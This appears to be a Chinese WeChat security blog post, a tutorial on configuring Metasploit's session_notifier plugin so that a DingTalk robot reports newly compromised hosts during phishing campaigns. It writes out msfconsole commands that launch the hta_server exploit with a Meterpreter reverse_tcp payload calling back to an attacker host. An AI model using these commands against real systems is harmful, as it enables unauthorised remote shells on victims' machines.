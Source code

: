 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/TpC-93r7dA7luEhkiHAi\_g)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

**所有话题标签：**

[#Web 安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808926912513&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#漏洞复现](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808859803651&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#工具使用](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1556485811410419713&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#权限提升](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559100355605544960&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#权限维持](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1554692262662619137&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#防护绕过](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553424967114014720&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#内网安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102220258885633&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#实战案例](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553386251775492098&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#其他笔记](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102973052567553&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#资源分享](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [#MSF](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1570778197200322561&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

 |

**0x01 前言**

我们在进行钓鱼攻击或被动提权时可能需要在 MSF 长期监听某个端口，等待管理员执行上线，但又不可能随时都盯着监听界面，这样就不能及时得知是否有新主机上线，是不是很不方便呢？

最近在 metasploit-framework 项目中看到安恒 @三米前有蕉皮老哥提交的 “钉钉通知” 拉取请求，现已被 rapid7 合并到了 session\_notifier 会话通知插件中。

*   https://github.com/rapid7/metasploit-framework/pull/13571
    

**0x01 钉钉机器人 webhook 配置**

我们先在钉钉官网下载 Windows 客户端并注册一个用户进行登录，然后发起一个群组并在群设置中的智能群助手里添加一个自定义机器人。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcySkltj9bkJgJxHvmgdAvYJfVb3tbtZeqvFOicibSFesiamSVEcPlMS91rhgZNKP1nAvOSiaLXjichvLg/640?wx_fmt=png)

  

机器人的名称可以随便取，在安全设置中添加一个自定义关键字 “session”，这是一个不能修改的固定值。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcySkltj9bkJgJxHvmgdAvYFhbRbWjdB9bB8anMic4jqprQQsjSfw2FXCe8NrZJ1eSCIIQS3kHb0lg/640?wx_fmt=png)

****0x02 session\_notifier 插件配置****

msfconole 命令进入 MSF 后先用 load 加载 session\_notifier 插件，将 set\_session\_dingtalk\_webhook 设置为我们钉钉机器人中的 Webhook，然后用 start\_session\_notifier 命令开启会话通知即可。

```
root@:kali~# msfconsole -q
msf6 > load session\_notifier
msf6 > set\_session\_dingtalk\_webhook https://oapi.dingtalk.com/robot/send?access\_token=
msf6 > start\_session\_notifier
```

**![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcySkltj9bkJgJxHvmgdAvYoicmbia7QacZGicYI88QZYU7DWlDANztzWEaqxSqba75VF79uT6iaf8wvw/640?wx_fmt=png)**

**SessionNotifier Commands：**

```
restart\_session\_notifier        //重新启动会话通知
save\_session\_notifier\_settings  //将所有会话通知设置保存到框架
set\_session\_dingtalk\_webhook    //设置DingTalk会话通知(关键字: session)
set\_session\_maximum\_ip          //设置会话通知最大IP范围
set\_session\_minimum\_ip          //设置会话通知最小IP范围
set\_session\_mobile\_carrier      //设置手机的移动运营商
set\_session\_mobile\_number       //设置您要通知的10位手机号码
set\_session\_smtp\_address        //设置会话通知SMTP地址
set\_session\_smtp\_from           //设置SMTP发件人
set\_session\_smtp\_password       //设置SMTP密码
set\_session\_smtp\_port           //设置会话通知SMTP端口
set\_session\_smtp\_username       //设置SMTP用户名
start\_session\_notifier          //开始会话通知
stop\_session\_notifier           //停止会话通知
```

随便设置了一个 hta\_server 监听模块来测试一下看是否能够实时收到新上线主机的通知。  

```
msf6 > use exploit/windows/misc/hta\_server 
msf6 exploit(windows/misc/hta\_server) > set target 1
msf6 exploit(windows/misc/hta\_server) > set payload windows/x64/meterpreter/reverse\_tcp
msf6 exploit(windows/misc/hta\_server) > set lhost 39.\*\*.\*.238
msf6 exploit(windows/misc/hta\_server) > set lport 443
msf6 exploit(windows/misc/hta\_server) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcySkltj9bkJgJxHvmgdAvYLuj2VVuMWpHXUdKsDyFa3VFtoiakAwQAlPQyrzlA2icRXtGISianvibKlQ/640?wx_fmt=png)

这里我们可以看到钉钉群组里已经成功的收到了机器人发送过来的新上线主机通知信息！！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcySkltj9bkJgJxHvmgdAvYkVGM8NBtVhcibPv3bJCV4B7a9dBjBQicaH5CJwOWXLuZTovVricGAeXdA/640?wx_fmt=png)

**【往期 TOP5】**

[绕过 CDN 查找真实 IP 方法总结](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484585&idx=1&sn=28a90949e019f9059cf9b48f4d888b2d&chksm=cfa6a0baf8d129ac29061ecee4f459fa8a13d35e68e4d799d5667b1f87dcc76f5bf1604fe5c5&scene=21#wechat_redirect)

[站库分离常规渗透思路总结](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484281&idx=1&sn=4d9fdae999907b222b0890fccb25bbcc&chksm=cfa6a76af8d12e7c366e0d9c4f256ec6ee6322d900d14732b6499e7df1c13435f14238a19b25&scene=21#wechat_redirect)  

[谷歌浏览器插件 - 渗透测试篇](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484374&idx=1&sn=1bd055173debabded6d15b5730cf7062&chksm=cfa6a7c5f8d12ed31a74c48883ab9dfe240d53a1c0c2251f78485d27728935c3ab5360e973d9&scene=21#wechat_redirect)  

[谷歌浏览器插件推荐 - 日常使用篇](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484349&idx=1&sn=879073cc51e95354df3a36d0ed360b62&chksm=cfa6a7aef8d12eb8874da853904847c8c31ff96de4bab3038ce004c92f3b130c36f24c251cc9&scene=21#wechat_redirect)

[绕过 360 安全卫士提权实战案例](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484136&idx=1&sn=8ca3a1ccb4bb7840581364622c633395&chksm=cfa6a6fbf8d12fedb0526351f1c585a2556aa0bc2017eda524b136dd4c016e0ab3cdc5a3f342&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJ6X5g7wBvlRrvCcGXUd61L5Aia8VREQibSXkfcwicxpAEoAUMFGfKhHuiaA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJk2Cx54PBIoc0Ia3z1yIfeyfUV61mn3skB5bGP3QHicHudVjMEGhqH4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)